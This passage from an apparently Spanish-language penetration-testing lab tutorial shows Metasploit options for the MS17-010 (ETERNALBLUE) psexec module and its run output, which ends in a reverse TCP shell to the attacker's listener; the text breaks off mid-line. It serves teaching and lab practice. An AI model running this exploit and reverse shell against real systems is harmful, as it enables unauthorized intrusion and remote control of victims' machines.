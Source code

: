 ```r
   SHARE                 ADMIN$                                   yes       The share to connect to, can be un admin share (ADMIN$,C$,...) o una no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Una vez que todo está configurado y listo para comenzar, podemos proceder a lanzar el ataque. Nota que el payload no se configuró aquí, ya que el predeterminado es suficiente para esta demostración.

### MSF - Exploit Execution

```r
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-13 21:37:21 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.
```